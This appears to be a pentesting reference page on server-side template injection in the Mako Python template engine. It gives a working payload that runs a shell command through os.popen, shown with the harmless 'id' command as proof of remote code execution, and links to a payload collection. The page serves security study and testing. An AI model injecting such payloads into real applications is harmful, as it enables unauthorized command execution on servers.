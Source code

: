 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Mako

[Mako](https://www.makotemplates.org/) is a Python template library that compiles into Python modules for high performance. It uses a non-XML syntax inspired by Django, Jinja2, Cheetah, and others. Mako functions as an embedded Python language, offering a simple, flexible model with strong support for Python's calling and scoping semantics.

## SSTI

```python
<%
import os
x=os.popen('id').read()
%>
${x}
```

<figure><img src="../../../../.gitbook/assets/glau_ssti_id.png" alt=""><figcaption><p>Figure 1: Achieving RCE through a SSTI flaw on a Mako templating engine.</p></figcaption></figure>

## Resources

{% tabs %}
{% tab title="PayloadAllTheThings" %}
{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#mako" %}
{% endtab %}
{% endtabs %}
